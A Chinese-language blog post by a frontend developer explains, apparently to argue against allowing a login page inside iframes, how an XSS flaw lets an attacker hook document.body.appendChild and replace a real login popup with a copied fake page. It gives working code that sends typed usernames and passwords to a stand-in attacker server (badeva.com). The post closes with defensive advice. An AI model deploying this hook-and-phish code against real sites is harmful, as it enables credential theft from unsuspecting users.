 ```yaml
---
title: 「 安全 」从iframe说到万物皆可hook
date: 2019-02-15 17:06:31
tags: 安全
---
```

#### 需求
今天遇到有业务要求我们的登录页允许被嵌在 iframe 中以满足导流需求，找安全的大佬们讨论了下，最后给出的结论是：

>如果业务方的代码写的挫了点，有 xss 漏洞的话，坏人完全可以把你本来的 iframe 隐藏掉，自己写个弹框出来，这样的话用户完全无感知地被篡改了，直接输入用户名和密码，信息就被上送到了坏人的服务器。

what？还能这样吗？ 那得写多少代码才能覆盖掉弹窗再伪造一个出来啊！

作为一个小白我算是长见识了。但是经过尝试，其实并不是那么回事。
<!-- more -->
#### 思考
但是作为一个与用户交互最紧密的前端，登录页总是302跳转到新的页面对于用户来说其实是非常不友好的，打断了用户操作，跳过去跳过来的都晕了，如果能够弹窗登录，那抢手机的路上将一气呵成，非常愉快呀！
弹窗登录一般都是 iframe 实现的，因为大家一般都是 sso 登录，也就是说要做出一个通用的框架，所以一般使用 iframe。

我弱弱的说了句，嗯，百度好像也是 iframe 呀，其他也有很多厂商是 iframe 的，这样的问题并不是很严重吧。
没想到大佬们立刻就开始研究百度的弹窗。结论是：
做的很巧妙啊！点击之后才出弹窗，xss 一般都是一开始就进行篡改，但是这种方式的话，坏人没办法获取用户点击【登录】的时机，这样应该没那么容易篡改。

#### 万物皆可hook
听得有点懵，后来才明白，他们就是想hook用户点击登录的click事件。

哈哈，术业有专攻。终于轮到我们前端大展身手的时候了，他们是不知道我们的【万物皆可hook】定理。

千千音乐盒为例：
![](/images/qian1.png)

点击登录之后，弹出了iframe，这时候一般都会有服务器交互，我们先看看chrome devtool的network，但是出现了好多条请求。这时候我们右键单击审查元素，看看iframe的src，其实凭经验来说，这种弹窗一般都是调用document.body.appendChild来添加在页面中，但是有更好的方法来佐证。

![](/images/qian3.png)
重要小tips：network中的Initiator会展示出发出请求的具体代码行数，点击一下就可以定位到具体是哪一行发出了这个请求。代码一般都压缩了的，点击下面的{}就可以格式化代码。果不其然，就是调用了appendChild，再看下html结构，显然是在append在body中的。

感兴趣的可以查看chrome devTool的使用（TODO）。

既然锁定了调用的是document.body.appendChild，那我们就可以放心的hook啦！
核心代码很简单，就是使用了js的call方法。
```js
let append = document.body.appendChild;
document.body.appendChild = function(el) {
  alert('hook success');
  append.call(document.body, el);
}
```
我们成功的hook了document.body.appendChild方法，在执行原来操作方式之前执行了我们的alert。

大佬要求我完整的实现隐藏原来的弹窗，弹出自己实现的弹窗。

那代码量应该不少吧。我们xss只能插入js，插入不了css，即使实现了也应该很丑吧。

no，no，no。

js啥都能插入!

html

```
const fakeIframe = document.createElement('div');
```

css

```
fakeIframe.style= 'border:1px solid #f8f8f8';
```
就是需要写好多dom操作的代码。

or 直接
```
fakeIframe.innerHTML='<iframe allowtransparency="true" style="border:0px none;position:absolute;top:0;left:0; width:100%;height:100%;"
src="//passport.taihe.com/v2/web/popLogin.html?target=pop&amp;u=https%3A%2F%2Fplay.taihe.com&amp;staticPage=https%3A%2F%2Fplay.taihe.com%2Fplayer%2Ftpassjump.html&amp;callback=tpass15504710495271&amp;tpl=baidu_music">
</iframe>';
```
本来打算自己写个iframe 登录页，转念一想，直接把他的页面copy出来算了，美观靠谱又省事儿。
打开//passport.taihe.com/v2/web/popLogin.html，chrome dev tool network，copy出popLogin.html的代码。
加上

```js
$('.tpass-button').on('click', function() {
  $.ajax({
    url: '/badEva/collect',
    type: 'POST',
    data: {
      username: $('.tpass-text-input-userName').val(),
      pwd: $('.tpass-text-input-password').val(),
    },
  })
});
```
部署在自己的server上，得到url如//passport.badeva.com/fakeLogin.html

```js
let append = document.body.appendChild;
document.body.appendChild = function(el) {
  let fakeIframe = document.createElement('div');
  fakeIframe.innerHTML = '<iframe allowtransparency="true" style="border:0px none;position:absolute;top:0;left:0; width:100%;height:100%;" src="//passport.badeva.com/fakeLogin.html" ></iframe>';
}
```
理论上四行代码就可以搞定了。

其实还有很多技术点可以细挖，先不展开说了。

#### 回溯
回想起来，这些思路还是来自于hook极验验证结果时得出来的。

引入了极验的sdk，但是用户每次滑动点选的结果对接入方来说是透明的，但是我们需要这些数据来进行分析，怎么才能得到用户每次验证的结果呢？

大家都说，页面都是你的页面，连个结果都获取不到？？？

计算每次的轨迹？

思考良久，脑子里突然闪过iOS里的method swizzling，具体是干啥的也不记得了，只记得method swizzling 黑魔法。

我的地盘我做主，怎么可能获取不到呢？

脑子里又闪过hook这个词。

对了，他们总是要给服务端结果的啊！hook他们的请求！

跨域只能jsonp，jsonp一般都是document.header.appendChild，轻轻松松得到结果，具体代码你可以自己试着写写。

但是随着时代的进步，极验也换用了CORS来进行跨域，hook Ajax就没有那么容易了。


#### 展望
大佬们很震惊，难道没有别的办法可以防止被hook吗？其实我们还是希望可以使用iframe来提升用户体验的。

但事实上js注入之后，可以做的事儿太多了。弹出iframe绕不过appendChild那些基础API，有xss漏洞就相当于敞开大门让坏人进来。

几乎是防不胜防。

所以更是提醒我们为了安全：

1.要尽量避免xss漏洞，请看这篇（TODO）

2.引入第三方js，一定要注意查看下network中是否有什么不清不楚的接口，偷偷的搜集了某些信息上送给别的服务端。

从这篇文章获取到的，你可以自己总结下。
顺便思考下hook Ajax的方法。

#### 彩蛋
虽然很绝望，但是首先，你需要一个xss漏洞。

大佬们微微一笑，xss漏洞远比你想象的多得多，即使简单的一个登录页就这段时间都检测出来了好多xss漏洞。

iframe白名单这个口子真的不能那么容易就打开呀，公司其实有很多赶工期的项目，开发周期短，代码写成啥样大家都懂，其实很容易出现xss漏洞。